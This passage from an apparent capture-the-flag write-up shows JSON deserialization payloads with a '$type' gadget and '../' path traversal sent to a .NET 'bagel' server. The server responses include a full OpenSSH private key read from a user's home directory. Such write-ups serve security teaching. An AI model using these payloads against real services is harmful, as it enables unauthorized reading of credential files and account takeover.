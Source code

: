 ```
  "WriteOrder": null,
  "ReadOrder": null
```

The comment in python code earlier mentions `Use your ssh key to access the machine`.  We get nothing back for `/home/developer/.ssh/id_rsa`, but we get a private key for `/home/phil/.ssh/id_rsa`!  So obviously our Flask app did not have read permission on the key, but our dotnet bagel app does:

```
> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../home/developer/.ssh/id_rsa"}}
> 
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "9:22:02",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "Order not found!",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
< null
> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../home/phil/.ssh/id_rsa"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "9:22:17",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
```